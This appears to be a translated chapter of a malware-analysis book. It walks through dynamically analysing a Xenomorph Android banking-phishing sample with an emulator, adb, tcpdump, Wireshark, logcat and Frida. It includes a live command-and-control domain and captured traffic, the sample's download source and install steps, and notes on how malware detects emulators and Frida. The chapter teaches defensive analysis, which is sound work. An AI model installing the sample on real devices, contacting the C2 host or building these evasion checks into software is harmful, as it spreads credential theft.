





## **4**

**动态分析**


本章使用 2022 年 3 月荷兰安全公司 ThreatFabric 首次描述的 Xenomorph 钓鱼家族中的恶意软件样本，介绍常见的 Android 动态分析工具以及使用这些工具的最佳实践。我们将涵盖使用设备模拟器运行恶意应用程序，以及使用 tcpdump、Wireshark 和 Frida 来了解应用程序行为的内容。

在任何严肃的逆向工程环境中，分析人员都会将静态和动态技术结合使用，以加速恶意软件分析。因此，在本章的末尾，我们将通过在 jadx 中进行静态分析来补充动态分析。你将看到如何使用动态分析获得对恶意软件功能的广泛理解，然后通过静态分析获取更多信息。

### **什么是动态代码分析？**

在程序分析和逆向工程中，*动态分析*或*动态代码分析*指的是通过执行程序代码来揭示程序特性的分析技术。这与上一章中描述的静态分析不同，静态分析旨在通过分析程序的代码和结构而不执行它来发现程序的特性。

当然，运行应用程序并不足以了解它在做什么。动态分析涉及一整套工具，这些工具可以监控并与应用程序互动，包括调试器和用于拦截 API 调用、转储内存或检查网络流量的软件。还有一些工具可能实现与应用程序 GUI 的交互，或自动测试应用程序的安全性特性以发现潜在的漏洞。当这些工具一起运行时，它们应当构建出应用程序如何与设备交互的全貌。你部署的监控设备的工具越多，你对应用程序的理解就越全面。然而，部署和维护这些工具可能需要大量的时间和金钱。

### **动态分析与静态分析**

动态分析和静态分析是互为补充的。为了全面了解应用程序的功能，你需要同时使用这两种分析方式，所有专业的恶意软件分析程序都是如此。

静态分析和动态分析之间鲜明差异的一个例子是它们的设置所需的努力程度。对于静态分析，你只需要将应用加载到 jadx 中即可。另一方面，动态分析首先需要设置一个能够执行程序的设备（无论是真实设备还是虚拟设备），然后确保你能够拦截和记录系统调用、网络流量、文件系统更改以及应用可能做出的任何其他设备修改。最后，你需要执行应用程序并与其交互，希望触发恶意功能。这可能比你想象的更为困难，因为恶意软件应用程序通常会部署各种反分析技巧，一旦它们认为自己处于安全研究人员的测试环境中，就会拒绝运行。

然而，一旦你克服了所有这些障碍，并且在测试设备上成功运行了应用程序，动态分析就展现出了它的优势。相比静态分析，动态分析进展要快得多，因为你可以观察应用程序的运行情况，并尝试将其执行引导到任何你感兴趣的方向。你的分析系统会记录所有敏感的 API 调用、网络流量和环境信息，并将这些细节整理成报告供你稍后研究。相比静态分析，你不需要一行一行地翻阅应用代码。

动态分析和静态分析互补的另一个方面是*代码覆盖率*，它衡量了分析技术能够分析多少代码。在静态分析中，应用的所有代码都可以进行分析。而在动态分析中，你只能考虑执行过的代码。两者之间的差异可能非常巨大。即使是最好的动态分析也只能执行应用代码的 5% 到 10%。剩下的 90% 到 95% 仍然是一个谜，只有通过静态分析才能揭示。

### **Android Studio 模拟器**

你需要为动态分析设置的第一个工具是运行时环境，用于执行应用程序。你可以选择使用真实的 Android 设备或模拟器。接下来，你必须选择设备类型和配置，如果你使用的是模拟器，还需要决定是使用 Android SDK 附带的默认模拟器，还是使用第三方模拟器。

使用模拟器成本低廉，并且如果出现问题，你可以快速重置分析。你也可以轻松开始分析。另一方面，大多数 Android 恶意软件会尝试检测它是否在模拟器中运行，如果它认为自己在被分析，就会表现得不同，这可能导致你浪费大量时间。如果使用真实设备，你就可以轻松绕过这些检查。

我们将在本章中使用随 Android Studio IDE 和 Android SDK 一起提供的标准 Android 模拟器进行动态分析。我们建议安装完整的 Android Studio，因为它会为你设置所需的 SDK 包并提供良好的用户界面。只安装 Android SDK 也可以，但需要更多的设置工作。你可以在 [*https://developer.android.com/studio*](https://developer.android.com/studio) 下载 Android Studio。请按照 [*https://developer.android.com/studio/install*](https://developer.android.com/studio/install) 上的说明进行安装。

#### ***创建系统镜像***

在启动模拟器之前，你必须先创建一个模拟器可以启动的系统镜像。最方便的方法是使用 Android Studio。通过选择 **Tools** ▸ **Device Manager** 访问设备管理器配置界面。设备管理器将指导你创建 Android 模拟器的系统镜像。

在这里，我们使用为 Pixel XL 设备配置的系统镜像，该镜像使用 API 30，并针对 32 位 x86 架构编译。我们选择这个架构是为了让模拟器运行得更快，因为这些镜像可以利用计算机的 CPU 虚拟化功能。选择 ARM 处理器镜像会比较慢，因为 x86 主机需要模拟 ARM 架构。当然，如果你使用的是基于 ARM 的主机计算机，应该选择 ARM 架构的 Android 系统镜像，原因相同。

#### ***启动模拟器***

虽然可以从 Android Studio 启动 Android 模拟器，但我们更喜欢从命令行启动它。这让我们可以使用一系列从 Android Studio 无法轻松访问的命令行选项。

这里有一种快速启动模拟器的方法：

```
$ emulator @Pixel_XL_API_30 -no-boot-anim
```

这个命令只需要两个参数。我们使用 `@` 来传递在前一步骤中在 Android Studio 中创建的 API 30 Pixel XL 系统镜像的名称。第二个参数 `-no-boot-anim` 会禁用系统启动动画，从而加快系统启动速度。

#### ***重置模拟器***

在进行动态分析时，你通常会希望通过删除之前运行恶意软件时在系统上创建的所有残留物来恢复到干净状态。否则，如果你无法将某些恶意软件遗留物与最近一次的运行联系起来，你可能会对它们的来源感到困惑。

恢复到干净状态的最简单方法是清除 Android 模拟器中的所有数据，并将其重置为原始状态。模拟器提供了方便的 `-wipe-data` 命令行参数来实现这一点：

```
$ emulator @Pixel_XL_API_30 -wipe-data -no-boot-anim
```

我们强烈建议在每次恶意软件运行之间广泛使用这个参数。

#### ***与模拟器互动***

为了与模拟设备进行交互，我们将使用 Android 调试桥命令行工具 adb，它随 Android SDK 一起提供，并可以通过 USB 或 TCP/IP 与设备进行通信。该工具支持大约十几个命令，你可以通过运行`adb --help`了解更多。贯穿本章，我们将使用 adb 命令在设备上安装应用程序、上传文件到设备以及从设备下载文件。

**模拟器与反分析技术**

互联网上发布的数百种动态反分析技术试图检测模拟器。这些技术从相对简单到相当复杂不等。例如，默认的 Android 模拟器并不试图隐藏自己。相反，它通过像设备型号（设置为`goldfish`）和模拟的移动运营商（设置为`Android`）这样的系统属性广播自己是一个模拟器。恶意软件可以轻松地通过检查这些系统属性或查看其运行的设备的 CPU 架构来检测它是否运行在此模拟器上。几乎没有真实的 x86 Android 设备，因此每当一个应用程序运行在 x86 CPU 上时，它很可能是在一个模拟设备上。

但应用程序并不一定依赖这些默认值或硬件属性来检测模拟器。一些应用程序可能会检查像 Facebook 这样流行的应用程序是否已安装在设备上。Facebook 几乎出现在所有真实设备上，但在模拟器上很少见到。其他应用程序检查用户的短信和网页浏览历史记录是否像真实用户那样，还是像新启动的模拟器那样为空。在更极端的情况下，应用程序甚至可以运行代码来评估内存访问的时间特性。模拟内存在硬件层面上与真实的物理内存表现不同。

许多公开记录的反分析技术针对的是常常安装在模拟器上的动态分析工具。通常，这些技术试图检测文件、进程或其他仅在安装了动态分析工具时才会存在的系统属性。特别是，恶意软件可以通过各种方式检测本章中使用的强大工具 Frida。

在一个专业的恶意软件分析实验室中，应用程序试图检测动态分析工具与实验室开发人员试图隐藏这些工具之间的“猫捉老鼠”游戏是职业中最耗时的方面之一。在最坏的情况下，恶意软件开发人员可以上传专门针对你实验室的恶意软件文件。这些应用程序枚举你的设备的系统属性，并将信息发送回恶意软件开发人员，后者再为你的设备构建专门的反分析技术。

### **动态分析工具**

除了 Android 模拟器，我们还将在分析中使用几个第三方应用程序：tcpdump，用于拦截并记录来自模拟器的网络流量；Wireshark，用于分析该网络流量；以及 Frida，用于操作我们分析的恶意软件。

#### ***tcpdump***

tcpdump 命令行工具是一个网络流量日志记录和分析工具。我们将使用它捕获恶意软件与其指挥控制服务器之间的所有网络流量，以便检查恶意软件收集的数据和它接收到的命令。

由于 tcpdump 是一个开源工具，您可以从 [*https://tcpdump.org*](https://tcpdump.org) 下载它。官网只提供源代码，因此您需要为测试设备的 Android CPU 架构编译它。有关编译 tcpdump 的说明，请参阅官方 GitHub 仓库中的文档，链接为 [*https://github.com/the-tcpdump-group/tcpdump/blob/master/INSTALL.md*](https://github.com/the-tcpdump-group/tcpdump/blob/master/INSTALL.md)。一些第三方网站也托管了适用于不同 Android CPU 架构的预编译 tcpdump 二进制文件，但我们无法确保这些第三方网站的可靠性，因此请谨慎操作。

接下来，使用 adb 将 tcpdump 安装到 Android 设备上，将二进制文件推送到设备并标记为可执行：

```
$ adb push tcpdump /data/local/tmp
$ adb shell chmod +x /data/local/tmp/tcpdump
```

`adb push` 命令用于将文件从主机计算机传输到 Android 设备，而 `adb shell` 用于在设备上执行 shell 命令。请注意，Android 使用的是 MirBSD Korn Shell（mksh），它的行为可能与您可能习惯的更常见的 Bash shell 不同。

#### ***Wireshark***

Wireshark 是一个开源的网络流量分析工具。我们将把它作为 tcpdump 捕获数据的图形界面。您可以从其官方网站下载，[*https://wireshark.org*](https://wireshark.org)。由于您将安装 Wireshark 到主机系统，而不是 Android 模拟器上，因此选择适合您主机系统的安装程序。例如，如果您使用 Windows，请安装适用于 Windows 的 Wireshark。

#### ***Frida***

Frida 是一个动态插桩工具包，您可以使用它来分析正在运行的应用程序，记录它们执行的内容，并在运行时操控它们。它是开源的，支持多种操作系统和可执行文件格式。安装 Frida 的官方方式是使用 pip，这是一个 Python 编程语言的包安装工具，因此，作为使用 Frida 的前提，您必须先从 [*https://python.org*](https://python.org) 和 [*https://pypi.org/project/pip/*](https://pypi.org/project/pip/) 安装最新版本的 Python 3 和 pip。接下来，通过运行 `pip install frida-tools` 来安装 Frida。

与 adb 类似，Frida 采用客户端/服务器架构：一个服务器二进制文件（`frida-server`）在 Android 设备上运行，而客户端（`frida`）在主机上运行，与 Android 设备进行交互。从 Frida 的 GitHub 页面下载 `frida-server`（[*https://github.com/frida/frida*](https://github.com/frida/frida)），该页面为多种操作系统和 CPU 架构提供了预编译的二进制文件，然后通过 adb 安装到 Android 设备上，并使文件可执行：

```
$ adb push frida-server /data/local/tmp
$ adb shell chmod +x /data/local/tmp/frida-server
```

### **恶意软件样本**

现在我们已经安装了动态分析工具，可以开始分析了。我们将分析一个名为 *com.spike.old*（v1, 2877）的 Android 恶意软件样本。这个恶意软件伪装成一个设备清理工具，虽然从未在 Google Play 上直接发现过，但其分发者上传了一个独立的恶意软件载体应用 *vizeeva.fast.cleaner*（v4, 8f50），该应用下载并安装了 *com.spike.old*。

这个来自 Xenomorph 家族的网络钓鱼应用具有一些有趣的特点，我们将在本章中探讨。它针对全球的银行以及一些其他对恶意软件开发者来说具有价值的应用的登录凭据。当用户与合法银行应用交互时，恶意软件会伪装成来自合法应用的登录对话框，试图窃取用户凭据。

为了开始分析，请从 [*https://github.com/android-malware-ml-book*](https://github.com/android-malware-ml-book) 下载恶意软件文件。然后使用 `adb install` 命令将应用安装到模拟器中，该命令将主机上的 APK 文件上传到 Android 设备，并启动安装过程：

```
$ adb install com.spike.old.apk
```

你可以在 */data/data/<包名>* 目录中找到已安装应用的私有数据。安装应用后，这个目录存在但为空，正如你通过执行此处显示的命令检查它时所见：

```
$ adb root
restarting adbd as root
$ adb shell find /data/data/com.spike.old
/data/data/com.spike.old
/data/data/com.spike.old/cache
/data/data/com.spike.old/code_cache
```

第一个命令 `adb root` 会以 root 权限重新启动设备上的 adb 守护进程（`adbd`）。你必须执行此操作才能访问由 Android 的进程隔离安全机制保护的应用程序的私密文件。输出显示了安装过程中创建的三个默认目录，但目前没有文件。未来进行恶意软件分析时，你可以跳过这个目录检查，因为应用目录的布局始终相同。

### **检测恶意功能**

现在我们将运行应用，同时我们的动态分析工具在后台运行以监控它的行为。这一工作流程是动态分析的核心，本节的方法与 第三章 中找到入口点的步骤相似。不同之处在于，我们现在不是寻找应用的结构属性（如权限、API 或入口点），而是观察恶意软件对其环境产生的不同影响，并利用这些线索进一步分析恶意软件的功能。具体来说，我们将查看恶意软件如何与模拟器的文件系统、网络连接以及系统日志进行交互。

要运行该应用，你可以通过模拟器中的应用抽屉像普通用户一样启动它，或者使用命令行和 adb 的某些较为隐晦的应用启动命令：

```
$ adb shell monkey -p com.spike.old 1
```

`monkey` 是一个最初为应用测试开发的辅助程序，它模拟真实用户与目标应用的交互。在这里，我们仅使用它通过名称启动指定应用的功能。末尾的 `1` 表示我们希望 `monkey` 在目标进程中模拟的用户界面事件的数量。在我们的案例中，我们只需要启动应用一次。

现在应用程序已经运行，它应该显示 图 4-1 所示的屏幕。



*图 4-1：恶意样本的第一个屏幕*

如你所见，应用程序试图说服用户授予它访问强大辅助功能 API 的权限。点击底部的大圆形按钮会打开系统对话框，用户可以在其中授予应用程序此权限。暂时我们不会授予辅助功能权限，也不会深入到应用程序中去。相反，我们将继续进行下一步分析。

#### ***观察文件系统变化***

既然应用程序已经运行，我们可以再看看它的默认文件目录。为了让这个输出更加有用，我们将优化 `adb` 命令，以显示该目录中所有文件的文件类型。由于末尾有分号，必须使用引号：

```
$ adb shell "find /data/data/com.spike.old -type f -exec file {} \;"
./cache/WebView/Crashpad/settings.dat: data
./cache/WebView/Default/HTTP Cache/Code Cache/wasm/index: data
./cache/WebView/Default/HTTP Cache/Code Cache/wasm/index-dir/the-real-index: data
./cache/WebView/Default/HTTP Cache/Code Cache/js/index: data
./cache/WebView/Default/HTTP Cache/Code Cache/js/index-dir/the-real-index: data
./cache/WebView/font_unique_name_table.pb: data
./app_DynamicOptDex/hq.json: Zip archive data, requires at least v2.0 to extract
./app_DynamicOptDex/oat/hq.json.cur.prof: data
./shared_prefs/ring0.xml: ASCII text
./shared_prefs/WebViewChromiumPrefs.xml: ASCII text
./app_webview/variations_seed_new: empty
./app_webview/webview_data.lock: data
./app_webview/variations_stamp: empty
./app_webview/Default/Web Data: data
./app_webview/Default/Web Data-journal: empty
./app_webview/Default/GPUCache/index: data
./app_webview/Default/GPUCache/index-dir/the-real-index: data
./app_webview/pref_store: ASCII text
```

输出显示了大量新文件的创建。其中许多是 Android 创建的模板文件，但有两个文件特别引人注目。第一个是*shared_prefs/ring0.xml*，似乎是一个玩笑名字：ring zero 是某些计算机上执行的最高权限级别。另一个是*app_Dynamic OptDex/hq.json*，它的文件扩展名暗示它是一个文本文件。然而，`file` 命令显示它实际上是一个 ZIP 文件。我们应该调查声明的文件扩展名与文件内容之间的这个不匹配问题。

#### ***下载文件以进行检查***

为了进一步检查应用程序导出的文件，我们可以通过 `adb pull` 命令将所有文件从设备下载到主机计算机。此命令可以下载单个文件或整个目录：

```
$ adb pull /data/data/com.spike.old
```

现在让我们快速检查这两个可疑文件：

```
$ cat com.spike.old/shared_prefs/ring0.xml 
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="ANCT">simpleyo5.tk</string>
    <string name="NSTG">4</string>
    <string name="AITT"></string>
    <string name="AIEN">1</string>
</map>

$ xxd -l 48 com.spike.old/app_DynamicOptDex/hq.json 
00000000: 504b 0304 1400 0808 0800 34a2 4854 0000  PK........4.HT..
00000010: 0000 0000 0000 0000 0000 0b00 0000 636c  ..............cl
00000020: 6173 7365 732e 6465 782c d707 d8ce d5ff  asses.dex,......
```

*ring0.xml* 文件似乎包含一些未知含义的配置设置，但其中有一个有趣的域名。*hq.json* 文件似乎包含 DEX 代码，正如 *classes.dex* 字符串所示。可以推测，恶意软件将此文件写入磁盘并加载它。

到目前为止，我们已经获得了一些可以追查的恶意软件线索。XML 文件中的可疑域名是什么？其他配置选项是什么意思？DEX 文件来自哪里，它有什么作用？暂时我们不会追查这些线索。相反，我们将使用其他动态分析工具来进一步了解恶意软件。

**注意**

*应用程序还可以访问文件系统的其他部分。特别是，许多应用程序会向 Android 的共享外部存储写入数据。为了简洁起见，我们省略了关于恶意软件与这些存储区域的交互讨论，但完整的动态分析应该包括这部分内容。*

#### ***捕获网络流量***

动态分析的另一个目标是网络流量。我们可以捕获并分析这些流量，以找出恶意软件向哪里发送数据以及从哪里接收数据。这可以为我们提供恶意软件能够执行的命令，以及它可能试图窃取哪些敏感数据的重要线索。

在捕获网络流量之前，重要的是将模拟器设备重置为干净状态。否则，应用程序可能不会重复先前运行时已发生的某些网络请求。例如，如果 DEX 代码文件 *hq.json* 是从互联网上下载的呢？应用程序可能不会再次下载该文件，因为它已经存在于磁盘上。如果你想了解这个 DEX 文件的来源，你就会感到困惑。

当然，在你清除设备数据后，你需要再次上传 `tcpdump` 文件到模拟器并使其可执行。如果你经常需要重置模拟器，这项任务会变得非常繁琐。我们建议将所有模拟器配置命令放入一个 shell 脚本中，这样在清除设备后可以轻松执行。

为了捕获网络数据，我们使用 `adb exec-out` 命令在模拟器上运行 `tcpdump` 可执行文件。然后，我们使用 `adb exec-out` 将二进制数据从模拟器传输到主机系统，并将其通过管道传输到 Wireshark 以方便查看。值得注意的是，只有当 `adbd` 在设备上以 root 身份运行时，才能捕获网络流量。如果你在重置模拟器后还没有将 `adbd` 置于 root 模式，现在是时候这么做了：

```
$ adb root
$ adb exec-out "/data/local/tmp/tcpdump -i any -U -w - 2>/dev/null" | wireshark -k -S -i -
```

我们使用 `tcpdump` 命令行选项 `-i any` 来捕获来自任何网络接口的流量。`-U` 和 `-w` 的组合确保捕获的数据包会立即写入输出文件。Wireshark 的命令行参数 `-k -S` 会立即开始捕获并显示数据包。`-i -` 参数告诉 Wireshark 从标准输入（stdin）接收网络数据包，数据包是通过 adb 被管道传输到此处的。

请注意，这个命令会捕获设备的所有网络流量，这意味着捕获的数据不一定来自正在分析的恶意软件。如果其他进程也建立了网络连接，它们的流量也会被捕获。在一个刚重置的设备上，这通常不是问题，因为几乎没有应用程序在运行，操作系统的网络连接也很少。为了更好地了解你 Android 设备的默认网络连接，你可以在不运行恶意软件或其他应用程序的情况下捕获网络流量。

#### ***分析网络流量***

一旦 tcpdump 和 Wireshark 启动并运行，我们就可以开始查看捕获的流量。图 4-2 显示了一个 Wireshark 会话示例，展示了在运行 *com.spike.old* 时捕获的数据包。Wireshark 窗口的上三分之一显示了所有捕获的网络数据包的摘要。中间三分之一显示了选定的 HTTP 网络数据包的解析信息。底部三分之一显示了选定数据包有效载荷的十六进制转储。



*图 4-2：Wireshark 显示来自恶意应用的捕获网络流量*

图 4-2 中的一些信息在 清单 4-1 中有所重现，以便于阅读。特别是，我们选择展示 HTTP 数据包的结构化信息。

```
Frame 22: 272 bytes on wire (2176 bits), 
    272 bytes captured (2176 bits) on interface -, id 0
Linux cooked capture v1
Internet Protocol Version 4, Src: 10.0.2.16, Dst: 23.184.48.153
Transmission Control Protocol, Src Port: 35938, Dst Port: 80, Seq: 7301,
    Ack: 1, Len: 216
[6 Reassembled TCP Segments (7516 bytes): #17(1460), #18(1460),
    #19(1460), #20(1460), #21(1460), #22(216)]
Hypertext Transfer Protocol
    POST /ping HTTP/1.1\r\n
    Content-Type: application/json; charset=UTF-8\r\n
    Content-Length: 7331\r\n
    Host: simpleyo5.tk\r\n
    Connection: Keep-Alive\r\n
    Accept-Encoding: gzip\r\n
    User-Agent: okhttp/4.2.1\r\n
    \r\n
    [Full request URI: http://simpleyo5.tk/ping]
    [HTTP request 1/1]
    [Response in frame: 29]
    File Data: 7331 bytes
JavaScript Object Notation: application/json

0000   7b 22 68 61 73 68 22 3a 22 50 42 66 69 48 48 38   {"hash":"PBfiHH8
0010   37 4d 66 54 2b 34 4c 31 68 79 34 62 6c 49 30 6d   7MfT+4L1hy4blI0m
0020   5a 6a 2f 79 33 55 33 46 68 32 4a 78 6d 48 7a 43   Zj/y3U3Fh2JxmHzC
0030   48 72 67 4d 3d 22 2c 22 69 64 22 3a 22 54 33 6c   HrgM=","id":"T3l
0040   50 46 72 45 42 42 54 55 51 46 52 64 62 32 33 43   PFrEBBTUQFRdb23C
0050   77 44 74 6a 79 50 37 4e 33 51 34 48 75 4d 68 4e   wDtjyP7N3Q4HuMhN
0060   54 2b 55 38 6e 6a 6a 6b 69 39 59 73 70 4d 46 49   T+U8njjki9YspMFI
```

*清单 4-1：Wireshark 捕获的网络连接详情*

从中我们得知，拦截到的数据包是一个 HTTP POST 请求，目标地址为 *http://simpleyo5.tk/ping*，这是我们之前在可疑配置文件 *ring0.xml* 中看到的同一域名。底部的简略十六进制转储显示，POST 有效载荷（发送到该域的数据）似乎是 JSON 格式的文本，包含 `hash` 和 `id` 键，以及看起来像是 Base64 编码的值。

捕获网络流量证明是一种成功的策略。我们已经确认恶意软件使用了域名*simpleyo5.tk*，并且 JSON 和 Base64 编码的数据被发送到该域名的*/ping*端点。我们还知道一些明文的 JSON 键。我们将这些见解添加到我们后续要追踪的线索中。

#### ***使用 Logcat 分析日志***

一个强大的信息来源是 Android 系统范围的日志，操作系统和应用程序使用它来记录调试数据、错误消息和其他信息。粗心的恶意软件开发者如果使用默认的日志系统来调试他们的应用，可能会忘记在最终发布时移除日志语句，从而无意间泄露了大量信息。

幸运的是，*com.spike.old* 就是其中一个这样的应用。它大量使用日志，且记录的信息非常详细，我们特意将这一节放在了网络捕获和文件系统分析之后，以避免泄露过多信息。

访问 Android 系统日志的标准方法是使用 logcat 工具，例如通过 `adb logcat` 命令。默认情况下，logcat 会转储整个系统日志文件，通常有数千行。为了过滤掉不相关的细节，我们可以指定正在观察的应用程序的进程 ID，如下所示：

```
$ adb shell ps | grep com.spike.old
u0_a121        3711    303 1328880 194572 do_epoll_wait       0 S com.spike.old
$ adb logcat --pid=3711
```

我们首先查询恶意软件的进程 ID（在我们的案例中为 3711），然后告诉 logcat 只包括包含该 ID 的行。如我们所提到的，`logcat` 命令返回的信息量太大，不适合在此全部打印。然而，列表 4-2 展示了一个简短的预览。是的，应用程序确实将其命令与控制通信的加密参数转储到系统日志中。通常，在恶意软件分析中你不会这么幸运。

```
14:10:33.739  3711  3739 D pioneer_bridge_over_white_rabbits 
    (ApiVerifyRequestBody): key: 5f 9e 4a 92 b1 d8 c8 b9 8d b9 b7 f8 f8 80 0d 2e 
14:10:33.739  3711  3739 D pioneer_bridge_over_white_rabbits (
    ApiVerifyRequestBody): url: 73 69 6d 70 6c 65 79 6f 35 2e 74 6b 2f 70 69 6e 67 
14:10:33.740  3711  3739 D pioneer_bridge_over_white_rabbits 
    (ApiVerifyRequestBody): uid: 64 dc 5b 59 e5 46 53 8f
```

*列表 4-2: com.spike.old 的 logcat 输出*

字符串 `pioneer_bridge_over_white_rabbits` 值得注意。它是应用程序用于日志前缀的调试字符串。为什么应用程序会包含它尚不清楚。在日志数据的其他地方（但此处省略），你可以找到有关网络负载的信息、加密和解密的 JSON 对象映射、执行的类的详细信息等。

logcat 的一个优点是操作系统会暂时缓冲和保存日志。这意味着你无需在应用程序运行时监控 logcat：即使在分析的应用程序停止执行后，你仍然可以从系统日志中获取信息。由于 logcat 的大小有限，应用程序数据的可用性取决于 Android 设备上生成的日志条目的数量，以及在较早的日志条目被删除之前多少条日志仍然可用。实际上，通常它们会在几个小时内保持可用。

### **使用 Frida 进行分析**

到目前为止，我们已经使用了 adb、logcat、tcpdump 和 Wireshark 等工具快速发现了被观察应用的属性。然而，这些工具并不能让我们将观察到的应用属性与应用程序代码的具体部分关联起来。我们现在知道 *com.spike.old* 会将文件转储到磁盘、连接到命令与控制服务器，并加密其通信，但我们并不知道它在哪、为什么或如何做这些事情。我们可以使用 Frida 来建立这些连接。

Frida 是一款功能强大的工具，对其所有功能的解释可以填满另一本书。在这里，我们只会讨论那些有助于我们理解恶意样本的功能。特别地，我们将使用 `frida-trace` 快速了解恶意软件使用了哪些有趣的 Java API。我们还将使用 Frida 脚本在恶意软件的代码中查找这些有趣的 API。好奇的读者可以进一步阅读 Frida 的多种用途，因为本章仅涵盖了该工具大约 1% 的功能。

#### ***运行 frida-server***

你应该已经在设备上安装了 `frida-server` 并使其可执行。现在你必须运行它，以便它能够与主机系统上的 `frida` 客户端通信并与恶意软件进行交互。我们将再次使用 `adb shell` 来运行 `frida-server`：

```
$ adb root
$ adb shell /data/local/tmp/frida-server
```

一个警告是 `frida-server` 必须以 root 权限运行。

#### ***使用 frida-trace 查找有趣的 API***

`frida-trace` 工具可以动态追踪被观察应用中的方法调用，并转储有关它所使用的 API 的一些基本属性。该工具需要一个要拦截的方法列表，并将这些方法的输入和输出发送到标准输出。它支持正则表达式，可以轻松监控一个类甚至一个包中的所有方法。例如，以下命令可以转储恶意软件如何使用来自默认 Java 加密包中 `Cipher` 和 `SecretKeySpec` 类的所有方法的信息：

```
$ frida-trace -U -j 'javax.crypto.Cipher!*' \
                 -j 'javax.crypto.spec.SecretKeySpec!*' \
                 -f com.spike.old
```

该命令输出关于该加密 API 使用情况的数百行信息。清单 4-3 展示了其中的一小部分。我们可以看到恶意软件是如何设置 AES 加密密钥和初始化向量（IV）的，然后使用这些属性定义的加密算法解密一个字节数组。

```
  1222 ms  Cipher.getIV()
  1222 ms     | Cipher.updateProviderIfNeeded()
  1223 ms  <= [127,124,88,-42,38,53,-111,-46,-45,70,-89,-39,84,-32,-66,1]
           /* TID 0x164e */
  2150 ms  SecretKeySpec.$init([49,26,-127,53,-80,-83,-121,-50,35,-72,-79,-93,
                                -45,-113,43,31], 0, 16, "AES")
  2151 ms  Cipher.getInstance("AES_128/CBC/PKCS5PADDING")
  ...
  2158 ms  Cipher.init(2, "<instance: java.security.Key,
                       $className: javax.crypto.spec.SecretKeySpec>",
                       "<instance: java.security.spec.AlgorithmParameterSpec, 
                       $className: javax.crypto.spec.IvParameterSpec>")
                       ...
    2163 ms  Cipher.doFinal(-26,104,-111,-55,-17,70,-86,-87,124,-117,14,
                             59,-29,42,-28,-3,51,40,-32,-1
```

*清单 4-3：与加密 API 相关的 frida-trace 输出*

这个输出为我们后续的工作提供了更多线索。我们已经确认应用程序使用了默认的 Java 加密包，并且了解了一些它用于加密的配置参数。

